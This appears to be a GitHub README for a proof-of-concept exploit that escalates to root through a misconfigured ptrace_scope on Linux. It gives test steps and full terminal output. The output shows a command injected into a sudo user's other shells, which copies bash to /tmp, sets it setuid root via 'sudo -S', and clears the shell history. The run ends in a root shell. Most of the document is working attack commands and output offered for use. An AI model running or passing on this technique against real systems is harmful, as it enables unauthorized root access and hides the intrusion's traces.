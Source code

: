 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

using ptrace (no GDB dep) execve

WARNING! this is a POC, the code is CRAP

based from (GDB dep): https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

How to test:

open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
```

open other terminal with the same user and execute ./xpk
```
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```
